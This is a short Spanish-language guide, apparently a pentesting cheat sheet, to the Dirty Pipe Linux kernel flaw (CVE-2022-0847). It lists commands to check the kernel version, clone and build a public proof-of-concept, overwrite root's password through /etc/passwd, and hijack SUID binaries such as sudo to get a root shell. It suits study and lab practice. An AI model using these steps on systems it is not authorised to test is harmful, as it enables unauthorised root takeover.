 # CVE-2022-0847 – Dirty Pipe

## 🐧 Descripción
Vulnerabilidad en los kernels de Linux desde la versión **5.8 hasta la 5.17** (inclusive).

Permite a un usuario con **permiso de lectura** en un archivo, **escribir en él**, lo que puede llevar a **escalada de privilegios**.

---

## ⚙️ Detalles técnicos
- Se basa en el uso de **pipes** (comunicación unidireccional entre procesos).
- Ejemplo de uso: modificar `/etc/passwd` para eliminar la contraseña del usuario `root`, permitiendo iniciar sesión como root sin necesidad de contraseña.

---

## 🧪 Explotación

### 🔍 Verificar versión del kernel
```bash
uname -r
```

Si está entre `5.8` y `5.17`, el sistema es vulnerable.

### 📥 Descargar y compilar PoC

`git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git cd CVE-2022-0847-DirtyPipe-Exploits bash compile.sh`

### 🚨 Exploit 1 – Modificar `/etc/passwd`
`./exploit-1`
- Establece la contraseña del root como `piped`.
    
- Lanza una shell como root.

### 🔧 Exploit 2 – Ejecutar binarios SUID como root

1. Buscar binarios SUID:
	`find / -perm -4000 2>/dev/null`

2. Ejecutar exploit con uno de ellos (ej. `/usr/bin/sudo`):
	`./exploit-2 /usr/bin/sudo`

	Resultado: se obtiene una shell como root.
